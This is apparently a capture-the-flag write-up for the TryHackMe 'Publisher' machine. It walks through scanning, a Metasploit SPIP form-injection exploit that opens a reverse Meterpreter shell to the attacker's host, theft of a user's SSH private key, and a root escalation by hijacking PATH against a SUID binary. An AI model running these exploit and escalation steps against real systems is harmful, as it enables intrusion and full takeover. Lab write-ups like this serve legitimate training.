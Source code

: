 ```yaml
---
title: "Publisher"
date: 2025-02-28
image: /assets/img/general/CTFgeneral_image.jpg
description: Test your enumeration skills on this boot-to-root machine.
categories: [TryHackMe, Easy]
tags: [linux, metasploit, path]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Publisher</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Test your enumeration skills on this boot-to-root machine.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/publisher">https://tryhackme.com/r/room/publisher</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Publisher.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.165.119
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-28 08:12 EST
  Nmap scan report for 10.10.165.119
  Host is up (0.042s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

  Nmap done: 1 IP address (1 host up) scanned in 17.28 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80 10.10.165.119
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-28 08:12 EST
  Nmap scan report for 10.10.165.119
  Host is up (0.037s latency).

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
  |   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
  |_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  |_http-title: Publisher's Pulse: SPIP Insights & Tips
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

I analyzed the website and didn't find anything useful, so I initiated a directory enumeration:

```bash
$ gobuster dir --url http://10.10.48.185/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt                
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.48.185/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /images               (Status: 301) [Size: 313] [--> http://10.10.48.185/images/]
  /spip                 (Status: 301) [Size: 311] [--> http://10.10.48.185/spip/]
  /server-status        (Status: 403) [Size: 277]
```

### Directory /spip Analysis

I began by analyzing the source code and identified a version number: 
```html
<meta name="generator" content="SPIP 4.2.0" />
```

To check for potential exploits, I launched `metasploit` and searched for the previously identified tool:
```bash
msf6 > search spip 

Matching Modules
================

   #  Name                                     Disclosure Date  Rank       Check  Description
   -  ----                                     ---------------  ----       -----  -----------
   0  exploit/unix/webapp/spip_connect_exec    2012-07-04       excellent  Yes    SPIP connect Parameter PHP Injection
   1  exploit/unix/webapp/spip_rce_form        2023-02-27       excellent  Yes    SPIP form PHP Injection
   2    \_ target: Automatic (PHP In-Memory)   .                .          .      .
   3    \_ target: Automatic (Unix In-Memory)  .                .          .      .
   
msf6 > use  exploit/unix/webapp/spip_rce_form
msf6 exploit(unix/webapp/spip_rce_form) > set rhosts 10.10.48.185
	rhosts => 10.10.48.185
msf6 exploit(unix/webapp/spip_rce_form) > set lhost [attackerip]
	lhost => [attackerip]
msf6 exploit(unix/webapp/spip_rce_form) > set targeturi /spip/
	targeturi => /spip/
```

After loading the module, I configured the correct options and executed the exploit.
```bash
msf6 exploit(unix/webapp/spip_rce_form) > exploit

[*] Started reverse TCP handler on [attackerip]:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.0
[+] The target appears to be vulnerable.
[*] Got anti-csrf token: AKXEs4U6r36PZ5LnRZXtHvxQ/ZZYCXnJB2crlmVwgtlVVXwXn/MCLPMydXPZCL/WsMlnvbq2xARLr6toNbdfE/YV7egygXhx
[*] 10.10.48.185:80 - Attempting to exploit...
[*] Sending stage (39927 bytes) to 10.10.48.185
[*] Meterpreter session 1 opened ([attackerip]:4444 -> 10.10.48.185:50582) at 2025-02-21 13:41:21 -0500
```

After a short time, I obtained a `meterpreter` reverse shell and successfully retrieved the user flag:
```bash
meterpreter > cd /home
meterpreter > ls
  Listing: /home
  ==============

  Mode              Size  Type  Last modified              Name
  ----              ----  ----  -------------              ----
  040755/rwxr-xr-x  4096  dir   2024-02-10 16:27:54 -0500  think
meterpreter > cat user.txt
	[removed]
```

## Privilege Escalation think

I continued enumerating the system and discovered the private SSH key for the user `think`:
```bash
meterpreter > ls -al /home/think
  Listing: /home/think
  ====================

  Mode              Size  Type  Last modified              Name
  ----              ----  ----  -------------              ----
  020666/rw-rw-rw-  0     cha   2025-02-21 13:15:33 -0500  .bash_history
  100644/rw-r--r--  220   fil   2023-11-14 03:57:26 -0500  .bash_logout
  100644/rw-r--r--  3771  fil   2023-11-14 03:57:26 -0500  .bashrc
  040700/rwx------  4096  dir   2023-11-14 03:57:24 -0500  .cache
  040700/rwx------  4096  dir   2023-12-08 08:07:22 -0500  .config
  040700/rwx------  4096  dir   2024-02-10 16:22:33 -0500  .gnupg
  040775/rwxrwxr-x  4096  dir   2024-01-10 07:46:09 -0500  .local
  100644/rw-r--r--  807   fil   2023-11-14 03:57:24 -0500  .profile
  020666/rw-rw-rw-  0     cha   2025-02-21 13:15:33 -0500  .python_history
  040755/rwxr-xr-x  4096  dir   2024-01-10 07:54:17 -0500  .ssh
  020666/rw-rw-rw-  0     cha   2025-02-21 13:15:33 -0500  .viminfo
  040750/rwxr-x---  4096  dir   2023-12-20 14:05:25 -0500  spip
  100644/rw-r--r--  35    fil   2024-02-10 16:20:39 -0500  user.txt
  
meterpreter > cd .ssh
meterpreter > ls 
  Listing: /home/think/.ssh
  =========================

  Mode              Size  Type  Last modified              Name
  ----              ----  ----  -------------              ----
  100644/rw-r--r--  569   fil   2024-01-10 07:54:17 -0500  authorized_keys
  100644/rw-r--r--  2602  fil   2024-01-10 07:48:14 -0500  id_rsa
  100644/rw-r--r--  569   fil   2024-01-10 07:48:14 -0500  id_rsa.pub
```
I downloaded the SSH key and successfully connected:
```bash
$ nano id_rsa
$ chmod 600 id_rsa
$ ssh -i id_rsa think@10.10.48.185
$ think@publisher:~$
```

## Privilege Escalation root

Since I didn't have the password for the user `think`, I began by inspecting the `SUID` bit and discovered an interesting binary:
```bash
$ find / -perm /4000 -type f 2>/dev/null
  [...]
  /usr/sbin/run_container
  [...]
```

I downloaded the binary for further analysis. By executing strings, I discovered two interesting paths:
```bash
$ strings run_container 
  [...]
  /bin/bash
  /opt/run_container.sh
  [...]
```

Due to permissions restrictions, I couldn't access the files inside the `/opt` directory, but I was able to read access the `run_container.sh` script:
```bash
$ file /opt/run_container.sh
run_container.sh: Bourne-Again shell script, ASCII text executable
$ cat /opt/run_container.sh
[...]
if [ -z "$(docker ps -aq)" ]; then
[...]
```

The script was using the Docker command without specifying the full path. This allowed me to execute a custom file called `docker` by modifying the `PATH` variable. After running it, the `ash` shell was overwritten with bash: 
```bash
think@publisher:/var/tmp$ echo "/bin/bash -p" > /tmp/docker
think@publisher:/var/tmp$ chmod 777 docker 
think@publisher:/var/tmp$ export PATH=/var/tmp/:$PATH
think@publisher:/var/tmp$ $PATH
  -ash: /var/tmp/:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin: No such file or directory
think@publisher:/var/tmp$ /opt/run_container.sh
think@publisher:/var/tmp$ $PATH
  bash: /var/tmp/:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin: No such file or directory
think@publisher:/var/tmp$ cp docker /opt/run_container.sh
think@publisher:/var/tmp$ /usr/sbin/run_container 
bash-5.0# whoami
  root
bash-5.0# cat /root/root.txt 
  [removed]  
```

solved! :)